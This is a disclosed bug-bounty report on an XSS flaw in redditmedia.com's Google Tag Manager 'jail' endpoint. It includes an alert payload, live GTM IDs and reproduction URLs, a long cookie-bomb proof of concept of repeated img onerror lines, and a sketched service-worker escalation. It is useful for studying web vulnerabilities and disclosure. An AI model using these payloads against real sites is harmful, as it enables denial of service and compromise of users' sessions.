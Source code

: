 # XSS in redditmedia.com can compromise data of reddit.com

## Report Details
- **Report ID**: 862882
- **URL**: https://hackerone.com/reports/862882
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-04-29T23:02:52.981Z
- **Disclosed**: 2022-08-03T15:40:13.808Z

## Reporter
- **Username**: keer0k
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: reddit

## Vulnerability Information
# Description

Hi, i would like to report a XSS in redditmedia.com that can affect the reddit.com application. In redditmedia.com domain we are in the domain that reddit.com use to get all the thumbmails of any post.

I found that redditmedia.com/gtm/jail uses the "id" parameter to get a valid GTM id and import it from google tag manager. With that, I can create a google tag manager account, create my own html and generate a valid GTM id to be introduced at redditmedia.com/gtm/jail.

I created a gtm with the content `<html> <img src = x onerror = alert (1)> </html>` and it worked. The XSS was triggered. You can check using the id `GTM-KM2VT3H`.

I discovered two scenarios that can affect reddit.com, one of which is making this XSS make a cookie bomb, creating a large amount of cookies for .redditmedia.com that will make the service unavailable to the user (only for the user who accesses the malicious GTM page)

The PoC for this case is as follows:
```
<html>
 <img src=x onerror="document.cookie='x1='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x2='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x3='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x4='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x5='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x6='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x7='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x8='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x9='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x10='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x11='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x12='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x13='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x14='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x15='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x16='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x17='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x18='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x19='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x20='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x21='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x22='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x23='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x24='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x25='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x26='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x27='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x28='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x29='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x30='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x31='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x32='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x33='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x34='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x35='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
<img src=x onerror="document.cookie='x36='+Array(3900).join(0)+';Expires=Wed, 02 Apr 2025 12:21:55 GMT;Path=/;Domain=.redditmedia.com'">
</html>
```
Ps: you need to put this code into your GTM tag.

after the user accesses the GTM page containing this content, thumbs, videos and other media contained on reddit.com will not be reproduced (midias that come from redditmedia.com).

The second case, is where it would be even more dangerous, however, I was unable to reproduce it, because for it to work I would need to have a jsonp endpoint at * .redditmedia.com, however, I didn't find it. But anyway, I will explain the case.

If I had a hypothetical JSONP at `redditmedia.com/anypath/?jsonp=xxx` I could use this JSONP as a chain for my XSS to write a service worker in the application, this way, no matter what ID was opened at redditmedia.com/gtm/jail?id=, I could control the page and make it return a malicious script to reddit.com creating the possibility of affecting users on reddit.com.

# Steps to reproduce XSS

1. go to https://redditmedia.com/gtm/jail?id=GTM-KM2VT3H&cb=aa
2. XSS will be trigger

# Steps to reproduce XSS to Cookie Bomb

1. go to https://redditmedia.com/gtm/jail?id==GTM-MS246QG&cb=aa
2. Cookie will be add
3. navigate to https://reddit.com/
4. some thumbs, images and other midias will no apear

## Impact

Its possible to compromise that cross-origin and destabilize a website for the user

## Attachments
No attachments
